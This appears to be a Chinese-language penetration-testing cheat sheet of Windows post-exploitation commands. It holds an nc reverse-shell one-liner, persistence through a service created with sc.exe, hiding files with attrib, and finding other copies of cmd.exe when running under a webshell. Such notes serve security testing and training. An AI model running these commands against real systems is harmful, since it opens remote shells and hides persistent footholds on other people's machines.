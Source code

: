 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1632654829759-e2566b93-8548-4225-b723-ded5cdfb5e12.png#averageHue=%230f0e0e&clientId=ua710643e-bfeb-4&from=paste&height=411&id=u0150b1b7&originHeight=548&originWidth=795&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51389&status=done&style=none&taskId=u54508ac1-6c3a-4f85-bdc1-d482a3e1b69&title=&width=596)

<a name="arUkr"></a>
### nc反弹shell
nc.exe -e cmd.exe ip port<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1646834838414-bc0eddb0-ea18-4f28-9f66-a807c1fea6c1.png#averageHue=%23767676&clientId=u10ed04fc-e647-4&from=paste&height=308&id=u8cf15dcf&originHeight=410&originWidth=1221&originalType=binary&ratio=1&rotation=0&showTitle=false&size=53173&status=done&style=none&taskId=ubdf1ddfe-8614-40e3-aae5-1ba77b558b5&title=&width=916)
<a name="zJ1va"></a>
### sc.exe开机自启动

sc.exe create scname_1 binPath= c:\windows\temp\test.exe<br />sc.exe config scname_1 start= auto #设置为开机自启，可有可无<br />sc.exe start scname_1

<a name="lmD6R"></a>
## **attrib **隐藏
**attrib +s +h 需要隐藏的文件夹/文件名称**
<a name="OHDo3"></a>
## ping

ping -a ip<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1632919464227-b98f40c7-d1d1-4643-961d-8e99ee97df3f.png#averageHue=%23181311&clientId=u2c80d317-35ce-4&from=paste&height=121&id=u6568c4ec&originHeight=161&originWidth=690&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24915&status=done&style=none&taskId=ua1f85d9d-ee5b-4b2d-b9d3-ab0e22a3f5a&title=&width=518)

ping -n 1 -r 9 192.168.1.101<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1632919600932-04b1397c-1170-4f91-a794-e6d86fc652a0.png#averageHue=%234f4e4e&clientId=u2c80d317-35ce-4&from=paste&height=328&id=udd2d975e&originHeight=656&originWidth=842&originalType=binary&ratio=1&rotation=0&showTitle=false&size=220904&status=done&style=none&taskId=u60a17c0d-2568-42a8-bfdf-4a66af6cb2d&title=&width=421)


<a name="IRaWb"></a>
## 关于cmd.exe权限低，无法执行的问题
在webshell下，有时候System32、SysWOW64目录下的cmd.exe文件有时候会没权限执行。解决办法有两个，一个是上传cmd.exe文件，另一个就是找另外一个位置的cmd.exe

可以通过dir c:\ /s /b | find "cmd.exe"  找到路径：
```go
win10路径
C:\Windows\servicing\LCU\Package_for_RollupFix~31bf3856ad364e35~amd64~~19041.1165.1.8\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_10.0.19041.746_none_69061189792bce34\f

win7
c:\Windows\winsxs\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_6.1.760
1.17514_none_f387767e655cd5ab\cmd.exe

win08路径
C:\Windows\winsxs\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_6.1.7601.17514_none_e932cc2c30fc13b0\cmd.exe
C:\Windows\winsxs\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_6.1.7601.17514_none_f387767e655cd5ab\cmd.exe

win12
C:\Windows\WinSxS\amd64_microsoft-windows-commandprompt_31bf3856ad364e35_6.3.9600.16384_none_7bcb26c7ee538fe3\cmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_6.3.9600.16384_none_861fd11a22b451de\cmd.exe
```
